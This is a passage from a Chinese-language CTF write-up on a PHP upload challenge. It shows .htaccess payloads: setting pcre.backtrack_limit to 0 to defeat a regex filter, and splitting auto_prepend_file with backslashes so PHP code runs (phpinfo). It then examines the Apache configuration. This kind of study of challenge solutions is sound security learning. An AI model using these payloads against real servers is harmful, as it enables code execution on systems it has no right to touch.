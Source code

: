 这个是rois的解法，rois也发过Write up，我也就不再赘述了。

```php
php_value pcre.backtrack_limit 0
php_value pcre.jit 0
```

原理是通过设置pcre的回溯次数上限为0，导致返回false绕过正则的限制，进而绕过文件名的限制，并php://filter和base64编码来绕过题中对content的参数的限制。

#### 第三种解法

通过在htaccess中写入shell语句，并且设置

```php
php_value auto_prepend_fi\ //通过 \ 来进行字符连接来规避content中的过滤
le ".htaccess"
#<?php phpinfo();?>\
```

通过auto_prepend_file的设置使得index.php对.htaccess的内容进行包含而getshell

最终payload为

```
?filename=.htaccess&content=php_value auto_append_fi\%0ale .htaccess%0a%23<?php phpinfo(); ?>\
```

效果如下

![mjU7GR.png](https://s2.ax1x.com/2019/08/30/mjU7GR.png)



### 对题目的一些思考

首先思考的一些问题是题目通过什么规则限制了通过file_put_contents新建出php文件的解析，和index.php为什么无法覆盖(这个还是比较好解释的，控制权限就行)，为什么通过`AddType application/x-httpd-php .txt`这种规则无法生效。

首先还是看了一下apache的配置文件apache2.conf，下面来说一下主要的几个地方

![mjaxXV.png](https://s2.ax1x.com/2019/08/30/mjaxXV.png)

这是文件中设置的几个规则，在这里 /var/www的规则是不去寻找.htaccess文件，也就是.htaccess是不生效的，所以当时就很奇怪为什么index.php却是受到htaccess的影响的，接下向下翻，反向有两处包含配置文件的地方

![mjdlhd.png](https://s2.ax1x.com/2019/08/30/mjdlhd.png)

那么就接着去这两个目录下翻一翻配置文件吧，最主要的两个文件其实是



conf-available下的docker-php.conf

![mjdh4J.png](https://s2.ax1x.com/2019/08/30/mjdh4J.png)

这个规则的意思是设置了/var/www目录下的文件是受.htaccess文件的影响



sites-enabled下的000-default.conf
